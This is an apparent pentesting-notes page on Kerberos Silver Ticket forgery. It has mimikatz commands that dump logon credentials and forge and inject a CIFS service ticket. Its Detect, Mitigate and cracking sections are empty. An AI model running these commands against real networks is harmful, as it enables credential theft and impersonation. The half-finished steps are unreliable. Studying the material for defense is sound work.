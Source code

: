 ```yaml
---
description: >-
  A Kerberos Silver Ticket is another type of forged authentication ticket used
  in Kerberos-based authentication systems. Unlike a Golden Ticket, which grants
  full administrative access to a domain cont
---
```


# 🥈 Silver Ticket

<figure><img src="../.gitbook/assets/Silver Tickets.png" alt="Silver Ticket"><figcaption><p>Silver Ticket</p></figcaption></figure>

A Kerberos Silver Ticket is another type of forged authentication ticket used in Kerberos-based authentication systems. Unlike a Golden Ticket, which grants full administrative access to a domain controller, a Silver Ticket provides unauthorized access to a specific service or resource within the network.

Silver Tickets = Forged Ticket Granting Service (TGS) tickets

{% hint style="warning" %}
Silver Ticket – Requires service hash. Use for **persistence** and **escalation**
{% endhint %}

{% hint style="danger" %}
ATT\&CK® Tactic: [Credential Access](https://attack.mitre.org/tactics/TA0006/)

ATT\&CK Technique:[T1558.002](https://attack.mitre.org/techniques/T1558/002/)
{% endhint %}

{% hint style="info" %}
Tools:[mimikatz](https://github.com/gentilkiwi/mimikatz), [impacket](https://github.com/SecureAuthCorp/impacket), [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
{% endhint %}

### Learn the Theory Behind Silver Tickets Attacks

{% embed url="https://ad-attacks.com/silver-ticket-attack-explained/" %}

### Requirements to forge a Silver Ticket

Service hash required

<table data-full-width="false"><thead><tr><th>MimiKatz Parameter</th><th>Info</th><th>Example</th></tr></thead><tbody><tr><td>/domain</td><td>Domain</td><td>poplabsec.rfs</td></tr><tr><td>/sid</td><td>AD Domain SID</td><td></td></tr><tr><td>/user</td><td>User to create or impersonate</td><td></td></tr><tr><td>/target</td><td>FQDN from the server</td><td></td></tr><tr><td>/service</td><td>Service name to attack</td><td></td></tr><tr><td>/rc4</td><td>NTLM/RC4 hash</td><td></td></tr></tbody></table>

<details>

<summary>Step 1 - Get a Service or Computer account Password Hash</summary>

Invoke MimiKatz

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

</details>

<details>

<summary>Step 2 - Crack NTLM Hash</summary>



</details>

<details>

<summary>Step 3 - Generate the Silver Ticket</summary>

Remember to select the user you want to impersonate or create a new one

{% code overflow="wrap" %}
```powershell
mimikatz.exe "kerberos::golden /user:NonExistentUser /domain:domain.com /sid:S-1-5-21-5840559-2756745051-1363507867 /rc4:8fbe632c51039f92c21bcef456b31f2b /target:FileServer1.domain.com /service:cifs /ptt" "misc::cmd" exit
```
{% endcode %}

</details>

<details>

<summary>Step 4 - Use the Forget Ticket</summary>

```
// Some code
```

</details>

<figure><img src="../.gitbook/assets/why-the-fuck-iflyto.jpg" alt=""><figcaption></figcaption></figure>

| Service Type              | Service Silver Ticket                                  |
| ------------------------- | ------------------------------------------------------ |
| WMI                       | HOST + RPCSS                                           |
| PSRemote                  | HOST + HTTP or WSMAN + RPCSS (Depending on OS version) |
| WinRM                     | HOST + HTTP                                            |
| Scheduled Tasks           | HOST                                                   |
| Windows File Share (CIFS) | CIFS                                                   |
| LDAP including DCSync     | LDAP                                                   |
| Windows RSAT              | RPCSS + LDAP + CIFS                                    |

### How to Create Golden Tickets with MimiKatz?

{% tabs %}
{% tab title="Detect" %}

{% endtab %}

{% tab title="Mitigate" %}

{% endtab %}
{% endtabs %}

**SERVICE SILVER TICKET**

### Documentation

{% file src="../.gitbook/assets/SIEGECAST-KERBEROS-AND-ATTACKS-101.pdf" %}
